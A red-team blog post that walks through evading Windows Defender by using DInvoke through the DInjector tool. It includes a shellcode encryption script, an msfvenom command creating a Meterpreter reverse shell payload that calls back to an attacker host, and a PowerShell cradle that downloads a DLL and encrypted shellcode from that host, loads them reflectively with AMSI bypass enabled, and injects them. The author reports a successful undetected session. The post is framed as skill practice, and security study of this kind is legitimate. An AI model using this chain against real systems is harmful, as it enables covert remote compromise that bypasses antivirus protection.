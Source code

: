 ```yaml
---
layout: single
title: "Making use of DInvoke as a better Antivirus Evasion practice, avoiding PInvoke & API Hooks"
date: 2021-10-26
tags:  
  - windows
  - dinvoke
  - windows-defender
author_profile: true
---
```

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/defender.webp)

Hello back fellow red teamers!!
Lately I have been focused on Windows stuff, such as excercises on trying to bypass Windows Defender through trial and errors etc as a practice to upgrade my own skills on red teaming.

In this article I'm going to explain how you can make use of Dynamic Invocation instead of PInvoke for a less suspicios execution.

First let's take a view at this repository :

- [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)

## What is DInvoke?
 
>*DInvoke is a dynamic replacement for PInvoke and contains powerful primitives that can be combined to dynamically invoke unmanaged code from disk or from memory.
It helps you use unmanaged code from C# while avoiding suspicious P/Invokes. Rather than statically importing API calls with PInvoke, you may use Dynamic Invocation to load the DLL at runtime and call the function using a pointer to its location in memory. You may call arbitrary unmanaged code from memory (while passing parameters), allowing you to bypass API hooking in a variety of ways and execute post-exploitation payloads reflectively.*

Rather than using PInvoke to import the API calls that we want to use, we load a DLL into memory manually. This can be done using whatever mechanism you would prefer. Then, we get a pointer to a function in that DLL. We may call that function from the pointer while passing in our parameters.

By leveraging this dynamic loading API rather than the static loading API that sits behind PInvoke, you avoid directly importing suspicious API calls into your .NET Assembly.

To show that little proof of concept of how it is done at a concrete target I will use [DInjector](https://github.com/snovvcrash/DInjector)

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img1.png)

DInjector is a tool which is fully ported on `DInvoke` APIs and simulates the concept of executing code through dynamic invocatuion in easier steps for people like me who are generally dumb.

Below is shown the content of `encrypter.py` which takes a raw shellcode payload and encodes it using either `AES` or `XOR` up to your preference.


```python
#!/usr/bin/env python3

import os
import hashlib
from base64 import b64encode
from argparse import ArgumentParser

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend


class AES:

	def __init__(self, password, iv): 
		self.key = hashlib.sha256(password.encode()).digest()
		self.iv = iv

	def encrypt(self, raw):
		backend = default_backend()
		padder = padding.PKCS7(128).padder()
		raw = padder.update(raw) + padder.finalize()
		cipher = Cipher(algorithms.AES(self.key), modes.CBC(self.iv), backend=backend)
		encryptor = cipher.encryptor()
		return self.iv + encryptor.update(raw) + encryptor.finalize()


def parse_args():
	parser = ArgumentParser()
	parser.add_argument('shellcode_bin', action='store', type=str)
	parser.add_argument('-p', '--password', action='store', type=str, required=True)
	parser.add_argument('-a', '--algorithm', action='store', type=str, default='aes', choices=['aes', 'xor'])
	parser.add_argument('-o', '--output', action='store', type=str)
	parser.add_argument('--base64', action='store_true', default=False)
	return parser.parse_args()


if __name__ == '__main__':
	args = parse_args()

	with open(args.shellcode_bin, 'rb') as fd:
		shellcode = fd.read()

	if args.algorithm == 'aes':
		iv = os.urandom(16)
		ctx = AES(args.password, iv)
		enc = ctx.encrypt(shellcode)
	elif args.algorithm == 'xor':
		enc = bytearray(b ^ ord(args.password) for b in shellcode)

	if args.base64:
		print(b64encode(enc).decode())
	else:
		with open(args.output, 'wb') as fd:
			fd.write(enc)
		print(f'[+] Encrypted shellcode file: {args.output}')
```

>*OK? WHATS NEXT?*

Of course I need to compile the ``DInjector`` project which will output the `.DLL` file that is going to be loaded into the memory in order to call the shellcode.

I could use Visual Studio to compile the DLL project but doing everything in linux just fits in perfectly. I wasnt aware there was a developer tool such as ``monodeveloper`` which could handle `C#` and `.NET` compiling on linux.

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/DInjector1.png)

The walkthrough after compiling the DLL is pretty much straightforwards, I am going to create a meterpreter shellcode and have the output as raw : 

```bash
pi0x73@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=192.168.88.142 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 906 bytes
Saved as: shellcode.bin
```

Encryping the shellcode and setting up a listener which will serve the files that we need to load on the target machine : 

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img2.png)

Before executing let's make sure Windows Defender is up to date.

![img3](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img3.png)

To load the DLL into the memory and call the shellcode you can use ``cradle.ps1`` which is part of the ``DInjector`` repo.

```powershell
# MODULE
$M = "currentthread"

# LHOST
$H = "192.168.88.142"

# AMSI
$A = "true"

# DLL
$D = "DInjector.dll"

# SHELLCODE
$S = "enc"

# PASSWORD
$P = "hahaWOW!!encrypt"

# PROCESS
$N = "notepad"

# IMAGE
$I = "C:\Windows\System32\svchost.exe"

# --------------------------------------------------------------------

$methods = @("remotethread", "remotethreadsuspended")
if ($methods.Contains($M)) {
    $N = (Start-Process -WindowStyle Hidden -PassThru $N).Id
}

$cmd = "$M /am51:$A /sc:http://$H/$S /password:$P /pid:$N /image:$I"

$data = (IWR -UseBasicParsing "http://$H/$D").Content
$assem = [System.Reflection.Assembly]::Load($data)

$flags = [Reflection.BindingFlags] "NonPublic,Static"

$class = $assem.GetType("DInjector.Detonator", $flags)
$entry = $class.GetMethod("Boom", $flags)

$entry.Invoke($null, (, $cmd.Split(" ")))
```

Clean execution , no trigger of the Antivirus and a functional meterpreter session!  
It succesfully beat a fully updated Windows Defender, I was surprised!

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img4.png)

### References

Most of the ``DInvoke`` concept explaination paragraphs are based on [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)
